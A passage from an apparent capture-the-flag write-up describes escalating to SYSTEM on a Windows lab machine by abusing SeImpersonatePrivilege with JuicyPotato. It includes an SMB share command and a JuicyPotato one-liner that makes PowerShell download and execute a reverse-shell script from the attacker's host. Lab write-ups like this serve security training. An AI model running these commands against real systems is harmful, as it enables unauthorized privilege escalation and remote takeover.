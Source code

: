 ### Root

Let's check for our user privilege `whoami /priv` : 

![](img/Pasted%20image%2020210821043049.png)


Our user has the `SeImpersonatePrivelege` so we can use `JuicyPotato` to get a root shell.

As always, you have to know what OS it is and get a good CLSID. (https://github.com/ohpe/juicy-potato/tree/master/CLSID)

To transfer `JuicyPotato`, use a smb server.

```
smbserver.py share . -smb2support
```

Mount it on the remote machine :

```
net use x: \\10.10.14.13\share
```

Put our previous payload in a file called `rev.ps1`, change the port and we can go!

```
.\JuicyPotato -l 1337 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.13:4444/rev.ps1')" -t *
```

![](img/Pasted%20image%2020210821043531.png)

Rooted.

